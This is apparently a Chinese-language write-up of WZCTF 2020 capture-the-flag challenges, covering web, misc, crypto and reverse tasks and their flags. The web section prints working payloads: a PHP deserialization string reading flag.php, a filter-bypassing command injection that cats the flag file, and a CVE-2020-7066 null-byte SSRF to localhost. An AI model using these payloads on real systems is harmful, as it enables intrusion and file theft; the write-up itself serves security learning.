

## Web

### 签个到

没什么好说的，先看一下网页源代码，好像不能用F12，那就用这个

```
view-source:网页
```

就可以看到flag了

```
wzctf{d0_y0u_1ike_rush_b}
```


### 吃豆人大挑战

#### 考点：简单的抓包

我们开启抓包工具进行抓包，按照题目要求，我们积分必须**超过2000分才会出flag**

在了解完题目意思后，我觉得页面一定有传回的包携带着我们的积分，我们只要去找到并且修改就好了，所以找到页面与服务器的交流数据包就是关键了

尝试时发现，在生命值用完之前，页面是不会发送数据包的，页面只会将最后的总积分发送给服务器。所以，我们直接抓到最后的包进行修改就好了


### 开箱

开了几次就随机抽到flag了。。。


### cat

看到源代码，需要我们提交变量cat和dog

- GET提交cat，内容为dog
- GET提交dog，内容为cat


### easy_unser

#### 考点：PHP反序列化漏洞

我们先在网页源代码看到了==unserialize.php==这个地址，进入后是一段源代码

检查函数后发现这是一个**PHP反序列化漏洞**，我们构造payload

```
http://10.30.25.54:28030/unserialize.php

xixi=O:4:"Easy":1:{s:4:"file";s:8:"flag.php";} 
```


### easycode

查看源代码：

```php
<?php

error_reporting(0);
require 'flag.php';
$value = $_GET['value'];
$password = $_GET['password'];
$username = '';

for ($i = 0; $i < count($value); ++$i) {
    if ($value[$i] > 32 && $value[$i] < 127) unset($value);
    else $username .= chr($value[$i]);
    if ($username == 'w3lc0me_To_WZCTF2020' && intval($password) < 2333 && intval($password + 1) > 2333) {
        echo $flag, '<hr>';
    }
}

highlight_file(__FILE__);
```

chr()会先除256取余，然后再转换成字符，所以我们传的ASCII码要加上256


### Ping一下

#### 考点：命令执行绕过

我们首先看到网页源代码，发现过滤了很多东西

```php
<?php

require ('./page.html');
if (!empty($_POST)) {
    header("content-type:text/html;charset=utf-8");
    $ip = $_POST['ip'];

    $as = "/ \/|\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\_|\+|\{|\}|\:|\<|\>|\?|\[|\]|\,|\/|\;|\'|\-|\=\| /";
    if (preg_match($as, $ip)) {
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }elseif (preg_match("/\s/", $ip)){
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }elseif (strstr($ip,"fl")){
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }
    $a = shell_exec("ping -c 4 " . $ip);
    echo "<pre>";
    print_r($a);
    echo "</pre>";
} Don't hack me!!!!!
```

用|隔断命令，最后构造出payload

```
127.0.0.1|cat$IFS$9f\lag.php
```


### cve-2020-7066

#### 考点：cve-2020-7066漏洞

看到cve直接百度查找这个漏洞的相关记录

其实就是get_header()的CVE。这个函数特点就是会去请求url并返回header头部。**但是CVE告诉我们，如果是用%00截断，就可能让命令去请求用户的可控网址。**

提示本地访问，那就直接127.0.0.1

```
/?url=http://127.0.0.1%00www.example.php
```


## Misc

### 听个歌放松一下

歌曲封面就有flag


### 简单的流量

我们追踪一下TCP流，当流为5时我们看到的flag


### 爆破是门艺术

我们解压后先看图片，这个里面给了密码提示（12位，开头是2020）



直接爆破，设置好参数


最后得到密码


### 闪电5连鞭

看到题目，我啪的一下就打开了Stegsolve，很快啊，就一帧一帧看，就看到flag了


## Crypto

### 你是文盲吗

题目如下：

```
你能看懂啥？，这里会有答案吗？
殟馽蘤鬠灏這殧襫噠韽蘤萿灏
```

不用说，第一反应就是找到耳机，打开谷歌翻译，让谷歌读出来

拼音：

```
Wēn zhí huā kuò hào zhè jiù shì dá ān huā kuò hào
```

flag

```
wzctf{zhe_jiu_shi_da_an}
```


### RSA

#### 考点：RSA

是一道RSA的简单题

题目如下：

```
公式一把梭
n = 33
e = 3
解是26

-------------------------
答案是多少
```


我们直接就可以口算出p、q的值

```
p = 3
q = 11
e = 3

c = 26
```

没什么好说的，直接算出来

```python
e = 3
p = 3
q = 11
c = 26
n = p * q
 
phi = n - (p + q) + 1
d = int(gmpy2.invert(e, phi))
m = pow(c, d, n)
print(m)
print(long_to_bytes(m))
// 最后计算出是5
```

题目要求flag为md5小写加密，找个在线网站得：`e4da3b7fbbce2345d7772b0674a318d5`


### lookdown

题目如下：

```
王德发？？这啥东西呀
516b684b545341354f46564c54794257526b52594944517a5630525349465a4853453467555664545769424f534564574944633256456856
```

16进制转字符串

```
QkhKTSA5OFVLTyBWRkRYIDQzV0RSIFZHSE4gUVdTWiBOSEdWIDc2VEhV
```

base64解密

```
BHJM 98UKO VFDX 43WDR VGHN QWSZ NHGV 76THU
```

不用说，一看就是键盘密码，ok解决

```
n i c e b a b y
```


### 层层深入

#### 第一层


```
wcewteotzflmoc			//栅栏密码 3栏

welcometowzctf			1.7z密码
```

#### 第二层

图片名称提示维吉尼亚密码，压缩包提示key=super


```
aqprkligitggbievsdyrnmxrxwl			//维吉尼亚密码，key=super

iwanttorecommendyouavsinger			3.rar密码
```

#### 第三层


这个就很明显了，摩尔斯密码。提示还有一个工具网站，待会要用到

```
.- ..--- ..-. --

A2FM
```

#### 第四层

这一层就比较难了，我们进入这个工具网站，这个网站是密码种类查询器，这种密码是**Pokémon**密码


```
https://www.dcode.fr/
```


最后密码就是：**suki**


## Reverse

### helloworld

shift+F12查找字符串就可以看到flag了